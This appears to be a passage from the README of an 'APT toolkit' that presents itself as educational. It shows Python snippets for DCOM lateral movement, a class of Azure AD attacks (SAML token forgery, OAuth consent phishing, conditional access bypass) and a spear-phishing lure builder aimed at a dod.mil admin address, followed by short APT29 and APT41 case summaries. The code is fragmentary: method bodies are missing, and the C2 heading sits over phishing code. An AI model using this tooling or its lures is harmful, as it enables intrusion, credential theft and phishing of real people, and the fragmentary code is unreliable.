 ```python
        successful_movements = []
        for host in target_hosts:
            for dcom_class, method in dcom_methods:
                if method(host, self.payload):
                    successful_movements.append((host, dcom_class))
                    break
        
        return successful_movements

class CloudIdentityAttacks:
    """Attacks against cloud identity providers"""
    
    def azure_ad_attacks(self):
        """Azure AD exploitation techniques"""
        attacks = {
            "saml_token_forgery": self.forge_saml_tokens(),
            "oauth_consent_phishing": self.oauth_consent_attack(),
            "conditional_access_bypass": self.bypass_conditional_access(),
            "privileged_identity_abuse": self.attack_pim()
        }
        return attacks
```

## Phase 6: Enhanced Command & Control - Advanced Infrastructure

### Sophisticated C2 Infrastructure
```python
from apt_toolkit.initial_access_enhanced import AdvancedSocialEngineering

ase = AdvancedSocialEngineering()
dossier = ase.build_target_dossier("security.admin@dod.mil")
lure = ase.create_context_aware_lure(dossier)

print(lure["subject"])
print(lure["timing"])
```

## 🎓 Educational Modules

### Real-World APT Case Studies

#### APT29 (Cozy Bear) - SolarWinds Campaign
- **Initial Access**: Software supply chain compromise through SolarWinds Orion
- **Persistence**: Multi-stage implants with sophisticated evasion
- **Lateral Movement**: Token-based authentication and credential theft
- **Command & Control**: Domain fronting and traffic mimicry

#### APT41 (Winnti) - Gaming Industry Targeting
- **Initial Access**: Supply chain attacks and zero-day exploitation
- **Persistence**: Custom rootkits and kernel-level implants
- **Defense Evasion**: Process hollowing and reflective DLL injection
- **Data Exfiltration**: Encrypted channels and steganography
